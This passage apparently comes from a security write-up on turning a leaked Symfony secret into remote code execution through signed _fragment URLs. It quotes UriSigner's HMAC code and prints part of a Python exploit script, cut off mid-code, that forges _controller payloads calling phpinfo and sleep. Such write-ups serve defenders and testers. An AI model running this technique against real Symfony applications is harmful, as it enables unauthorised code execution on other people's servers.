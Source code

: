 Which call function `computeHash()` from the same class:

File: <span style='color:red'>\<ROOT\>vendor/symfony/http-kernel/UriSigner.php</span>
```php
private function computeHash(string $uri): string
{
    return base64_encode(hash_hmac('sha256', $uri, $this->secret, true));
}
```

If we are able to identify the value of `$this->secret`, we are able to craft
valid URL.

# Using _controller to trigger RCE

## Direct call to PHP's functions

In the Symfony documentaton it is explained that controller are function we can
create that reads information from the Request object and creates and returns a
Response object. The response could be an HTML page, JSON, XML, a file download,
a redirect, a 404 error or anything else. The controller executes whatever
arbitrary logic the application needs to render the content of a page.

But it is also said that :

> While a controller can be any PHP callable (function, method on an object, or
a Closure), a controller is usually a method inside a controller class.

So a controller may be any PHP callable function such as `phpinfo()`, `system()`
, etc.

Here is the sample of the code use to test if direct calls to PHP's functions
works :

File: <span style='color:red'>rce.py</span>
```python

...

def controller(self):
    # Checks that it is possible to trigger
    # phpinfo ([ int $what = INFO_ALL ] ) : bool
    # or
    # sleep ( int $seconds ) : int
    # functions.
    #
    # return (array[bool]) [True, url] if the functions
    # has been executed, False otherwise.
    printf("un", f"Using _controller with PHP's functions ...")
    results = []
    payloads = [
        {"function": "phpinfo", "parameters": [
            {"name": "what", "value": -1}]},
        {"function": "sleep", "parameters": [
            {"name": "seconds", "value": SLEEP}]}
    ]
    for payload in payloads:
        query = f"_controller={payload['function']}"
        for parameter in payload['parameters']:
            query += f"&{parameter['name']}={parameter['value']}"
        self.payload = f"{self.url}?_path={up.quote_plus(query)}"
        self.compute_hash()
        r = requests.get(
            f"{self.payload}&_hash={up.quote_plus(self.hash.decode())}")
        condition = [
            payload['function'] == "phpinfo" and r.text.find(
```